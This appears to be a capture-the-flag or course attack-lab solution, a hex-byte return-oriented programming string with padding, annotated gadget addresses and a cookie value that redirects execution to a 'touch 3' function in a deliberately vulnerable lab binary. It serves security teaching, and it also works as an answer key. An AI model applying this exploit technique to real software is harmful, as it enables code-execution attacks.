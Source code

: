 Solution:
```
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e1 16 40 00 00 00 00 00 /* 1: mov rsp,rax */
4f 16 40 00 00 00 00 00 /* 2: mov rax,rdi */
73 16 40 00 00 00 00 00 /* 3: pop rax */
48 00 00 00 00 00 00 00 /* 4: gap 48 */
37 17 40 00 00 00 00 00 /* 5: mov eax,edx */
29 17 40 00 00 00 00 00 /* 6: mov edx,ecx */
4c 17 40 00 00 00 00 00 /* 7: mov ecx,esi */
89 16 40 00 00 00 00 00 /* 8: lea (rdi,rsi,1),rax */
4f 16 40 00 00 00 00 00 /* 9: mov rax,rdi */
ab 15 40 00 00 00 00 00 /* 10: touch 3 address */
35 63 64 36 31 65 66 31 /* 11: cookie */
00
```
